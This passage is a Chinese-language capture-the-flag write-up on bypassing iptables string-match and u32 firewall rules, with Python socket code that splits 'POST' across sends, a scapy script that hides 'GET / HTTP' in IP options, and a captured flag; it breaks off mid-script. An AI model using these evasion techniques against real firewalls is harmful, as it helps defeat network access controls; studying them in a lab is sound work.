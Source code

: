 ### 我的 POST

想要抵抗 `--algo bm --string "POST"` 只需要将一个 HTTP 请求分块发送，使得无法对 `POST` 进行全文匹配即可。

```py
http_request = [
    " / HTTP/1.1",
    "Host: {}:{}".format(addr, port),
    "Content-Length: 100",
    "Content-Type: application/x-www-form-urlencoded",
    "",
    token
]

req = "\r\n".join(http_request)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((addr, int(port)))

s.send(b"PO")
s.send(b"ST")

s.send(req.encode())

print(s.recv(1024).decode())
```

**`flag{ea5Y_sPl1tt3r_45dcf31181}`**

### 我的 P

这一问成功 Get 了非预期，对于 `-m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50"t`，由于会读取 4byte，于是第一问的解答可以继续使用。

### 我的 GET

对于如下的规则进行考量：

`-m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT`

不止是 TCP 包，全部流量包的前 50bytes 中均需要存在 `GET / HTTP` 字符串。最开始考虑使用固定值之间的空隙来存放，后续经过本地的抓包计算，空间不足，如果放在 TCP Options 中也可能导致超出 50bytes 的范围。

于是考虑向 IP 层添加信息，~~这道题卡住主要是因为不知道 scapy~~，后续知道了后，很快就成功实现。

又一个坑是操作系统可能会抢答 TCP 包，在它没有维护这个 socket 的时候，会尝试 RST，干扰我们的请求。因此需要使用本地 `iptables` 进行 `drop`。

```bash
sudo iptables -A INPUT -p tcp -s "192.168.23.1" --sport 18082 -j DROP
```

```py
from scapy.all import *

token = ""

ip = IP(
    dst="192.168.23.1",
    options=bytes([15, 12]) + b"GET / HTTP"
)

sport, dport = 61451, 18082

http_request = [
    "POST / HTTP/1.1",
    "Host: 192.168.23.1:18082",
    "Content-Length: 100",
    "Content-Type: application/x-www-form-urlencoded",
```